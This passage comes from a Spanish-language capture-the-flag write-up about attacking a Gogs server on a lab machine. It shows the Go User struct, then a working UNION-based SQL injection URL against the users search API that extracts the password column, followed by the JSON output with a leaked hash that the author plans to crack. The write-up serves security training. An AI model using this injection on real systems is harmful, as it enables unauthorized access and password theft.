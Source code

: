 ```go
	Orgs          []*User       `xorm:"-"`
	Repos         []*Repository `xorm:"-"`
	NumFollowers  int
	NumFollowings int
	NumStars      int
	NumRepos      int
	Avatar        string `xorm:"VARCHAR(2048) NOT NULL"`
	AvatarEmail   string `xorm:"NOT NULL"`
	Location      string
	Website       string
	IsActive      bool
	IsAdmin       bool
	AllowGitHook  bool
	Rands         string    `xorm:"VARCHAR(10)"`
	Salt          string    `xorm:"VARCHAR(10)"`
	Created       time.Time `xorm:"CREATED"`
	Updated       time.Time `xorm:"UPDATED"`

	// For organization.
	Description string
	NumTeams    int
	NumMembers  int
	Teams       []*Team `xorm:"-"`
	Members     []*User `xorm:"-"`
}
```

Son un total de **27 campos**. De ahí que nuestra *query* maliciosa fuera del 1 al 27. Los campos que nos interesan son ***Passwd*** y ***Salt***. Con estos dos podremos formar un *hash* que posteriormente lo podremos intentar *crackear* por fuerza bruta.

La *query* para obtener la **contraseña** será la siguiente:

```python
http://10.10.11.176:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,2,passwd,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27/**/from/**/User--/**/-
```

Aquí el resultado:

```json
[
  {
    "username": "susanne",
    "avatar": "//1.gravatar.com/avatar/c11d48f16f254e918744183ef7b89fce"
  },
  {
    "username": "66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37",
    "avatar": "//1.gravatar.com/avatar/15"
  }
]
```
